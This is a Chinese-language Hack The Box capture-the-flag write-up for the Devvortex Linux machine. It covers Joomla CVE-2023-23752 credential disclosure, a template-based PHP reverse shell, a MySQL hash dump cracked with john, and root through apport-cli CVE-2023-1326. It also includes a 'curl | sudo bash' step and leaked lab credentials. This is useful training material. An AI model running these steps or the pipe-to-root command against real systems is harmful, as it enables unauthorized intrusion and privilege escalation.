


---
tags:
  - HTB/Linux
  - HTB/Easy
---

## Summary

...

### Relevant Skills

- nmap
- 子域枚举
- CVE
- LINUX Signals

### Attack Path Overview

{ width='450' }


## External Recon - nmap

自用扫描脚本：[工作流](https://github.com/TimeLess613/workflow-scan4HTB/blob/main/workflow-scan4HTB.sh)  
`curl -s https://raw.githubusercontent.com/TimeLess613/workflow-scan4HTB/main/workflow-scan4HTB.sh | sudo bash -s <HTB-IP>`

开放端口：
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
```


## 攻击路径规划·漏洞分析

常规简单靶机，22端口SSH优先度放低。先看80端口的Web。


## 80端口

常规扫描时发现子域，估计主战场在那边。

### 子域：dev.devvortex.htb

- robots.txt：发现一些有用的目录
    ```html
    # If the Joomla site is installed within a folder
    # eg www.example.com/joomla/ then the robots.txt file
    # MUST be moved to the site root
    # eg www.example.com/robots.txt
    # AND the joomla folder name MUST be prefixed to all of the
    # paths.
    # eg the Disallow rule for the /administrator/ folder MUST
    # be changed to read
    # Disallow: /joomla/administrator/
    #
    # For more information about the robots.txt standard, see:
    # https://www.robotstxt.org/orig.html

    User-agent: *
    Disallow: /administrator/
    Disallow: /api/
    Disallow: /bin/
    Disallow: /cache/
    Disallow: /cli/
    Disallow: /components/
    Disallow: /includes/
    Disallow: /installation/
    Disallow: /language/
    Disallow: /layouts/
    Disallow: /libraries/
    Disallow: /logs/
    Disallow: /modules/
    Disallow: /plugins/
    Disallow: /tmp/
    ```
- .git/config：无
- 网页信息：无特别发现
- 网页源码：无特别发现
- 网页功能：无特别发现
- 目录枚举：除上述外无特别发现

### 子域各目录

除了administrator其他目录直接访问都是一篇空白。而administrator是一个joomla的登陆界面。

{ width='600' }

本来以为有弱凭据，搜了一下默认凭据只有说账号为admin，而密码是部署时设定的。  
简单尝试SQLi走不通。

### joomla版本

搜索“joomla exploit”，根据[hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla#version)的方法可以发现此Joomla的版本为“4.2.6”。  


## Initial Access

继续搜索“joomla 4.2.6 exploit”可发现此文章：<https://vulncheck.com/blog/joomla-for-rce>

### PoC (CVE-2023-23752)

根据上述文章访问 `/language/en-GB/langmetadata.xml` 获得一个凭据：`lewis:P4ntherg0t1n5r3c0n##`

在administrator界面尝试登录失败，不过 `Lewis:P4ntherg0t1n5r3c0n##` 可以。  
依旧根据上面文章的思路，登录进去后找templates，将其修改为PHP的反弹shell。最终发现 `error.php` 是可编辑的。开启监听，更改代码后访问 `/templates/cassiopeia/error.php`，成功接收反弹shell。


```bash
www-data@devvortex:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


## flag: user

如上面文章所说，之前的凭据是本地MySQL的。看了眼端口确实有：
```bash
www-data@devvortex:/$ netstat -anotl
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       Timer
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      off (0.00/0/0)
 ...
```

于是进MySQL准备拖库：
```bash
www-data@devvortex:/$ mysql -u lewis -p joomla
Enter password: 
 (...)
mysql> show tables;
+-------------------------------+
| Tables_in_joomla              |
+-------------------------------+
| sd4fg_action_log_config       |
 (...)
| sd4fg_users                   |
| sd4fg_viewlevels              |
| sd4fg_webauthn_credentials    |
| sd4fg_workflow_associations   |
| sd4fg_workflow_stages         |
| sd4fg_workflow_transitions    |
| sd4fg_workflows               |
+-------------------------------+
71 rows in set (0.00 sec)

mysql> select * from sd4fg_users;
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| id  | name       | username | email               | password                                                     | block | sendEmail | registerDate        | lastvisitDate       | activation | params                                                                                                                                                  | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| 649 | lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |     0 |         1 | 2023-09-25 16:44:24 | 2023-11-28 02:32:37 | 0          |                                                                                                                                                         | NULL          |          0 |        |      |            0 |              |
| 650 | logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |     0 |         0 | 2023-09-26 19:15:42 | NULL                |            | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL          |          0 |        |      |            0 |              |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
```

将sd4fg_users表的数据复制一下然后稍微整理，准备john暴破：
```bash
└─$ fgrep $2y$10$ creds-mysql.txt | awk -F '|' '{print $4 $6}' | awk '{print $1,$2}' | tr ' ' ':' > creds-mysql-trim.txt
                                                                                                                   
└─$ cat creds-mysql-trim.txt           
lewis:$2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u
logan:$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12

└─$ john --wordlist=/usr/share/wordlists/rockyou.txt creds-mysql-trim.txt   
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tequieromucho    (logan)
 (...)
```

突然想起来lewis就是我们进MySQL的用户。logan用户也暴破出来了，那么就切换用户。之前看home目录也有logan，估计user flag就在这了：
```bash
www-data@devvortex:/$ su logan
Password: 
logan@devvortex:/$ id
uid=1000(logan) gid=1000(logan) groups=1000(logan)
logan@devvortex:/$ cd
logan@devvortex:~$ ls
user.txt
logan@devvortex:~$ cat user.txt 
d0a5 (...) acf4
```


## Privilege Escalation

有密码先直接看看 `sudo -l`，有一条命令，很有可能这就是突破口：
```bash
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

可以查看版本：
```bash
logan@devvortex:~$ /usr/bin/apport-cli -v
2.20.11
```

实践发现谷歌比 `searchsploit` 好用多了啊……“apport-cli 2.20.11 exploit”搜一波发现下面文章：
> <https://nvd.nist.gov/vuln/detail/CVE-2023-1326>  
> <https://github.com/canonical/apport/commit/e5f78cc89f1f5888b6a56b785dddcb0364c48ecb>

### PoC (CVE-2023-1326)

github提交中写了PoC，帮大忙了。那么问题就是如何生成crash文件呢？

查看[apport的文档](https://github.com/canonical/apport)可发现，当收到“SIGSEGV”等信号时可

> It currently supports  
> - Crashes from standard signals (SIGSEGV, SIGILL, etc.) through the kernel coredump handler (in piping mode)

ChatGPT询问如何发送“SIGSEGV”信号后，得知可以kill一个进程。一个简单的方式就是后台运行一个sleep命令，然后对其发送信号：
```bash
logan@devvortex:~$ sleep 1000 &
[1] 9073
logan@devvortex:~$ ps
    PID TTY          TIME CMD
   1816 pts/2    00:00:00 bash
   9073 pts/2    00:00:00 sleep
   9100 pts/2    00:00:00 ps
logan@devvortex:~$ kill -11 9073
logan@devvortex:~$ ps
    PID TTY          TIME CMD
   1816 pts/2    00:00:00 bash
   9564 pts/2    00:00:00 ps
[1]+  Segmentation fault      (core dumped) sleep 1000
logan@devvortex:~$ ls /var/crash/
_usr_bin_sleep.1000.crash
```

顺便看一眼kill的各种信号：
```bash
logan@devvortex:~$ kill -l
 1) SIGHUP       2) SIGINT       3) SIGQUIT      4) SIGILL       5) SIGTRAP
 6) SIGABRT      7) SIGBUS       8) SIGFPE       9) SIGKILL     10) SIGUSR1
11) SIGSEGV     12) SIGUSR2     13) SIGPIPE     14) SIGALRM     15) SIGTERM
16) SIGSTKFLT   17) SIGCHLD     18) SIGCONT     19) SIGSTOP     20) SIGTSTP
21) SIGTTIN     22) SIGTTOU     23) SIGURG      24) SIGXCPU     25) SIGXFSZ
26) SIGVTALRM   27) SIGPROF     28) SIGWINCH    29) SIGIO       30) SIGPWR
31) SIGSYS      34) SIGRTMIN    35) SIGRTMIN+1  36) SIGRTMIN+2  37) SIGRTMIN+3
38) SIGRTMIN+4  39) SIGRTMIN+5  40) SIGRTMIN+6  41) SIGRTMIN+7  42) SIGRTMIN+8
43) SIGRTMIN+9  44) SIGRTMIN+10 45) SIGRTMIN+11 46) SIGRTMIN+12 47) SIGRTMIN+13
48) SIGRTMIN+14 49) SIGRTMIN+15 50) SIGRTMAX-14 51) SIGRTMAX-13 52) SIGRTMAX-12
53) SIGRTMAX-11 54) SIGRTMAX-10 55) SIGRTMAX-9  56) SIGRTMAX-8  57) SIGRTMAX-7
58) SIGRTMAX-6  59) SIGRTMAX-5  60) SIGRTMAX-4  61) SIGRTMAX-3  62) SIGRTMAX-2
63) SIGRTMAX-1  64) SIGRTMAX
```

*另外，这种形式也行：`killall -SIGSEGV sleep`*

有crash文件就好办了，接下来根据PoC运行 `sudo apport-cli -c /var/crash/_usr_bin_sleep.1000.crash`，然后直接“!”调用命令即可：
```bash
 (...)
!id
uid=0(root) gid=0(root) groups=0(root)
!done  (press RETURN)
```


## flag: root

```bash
 (...)
!cat /root/root.txt
768c (...) 2781
!done  (press RETURN)
```


---

## 总结·后记

2023/11/28

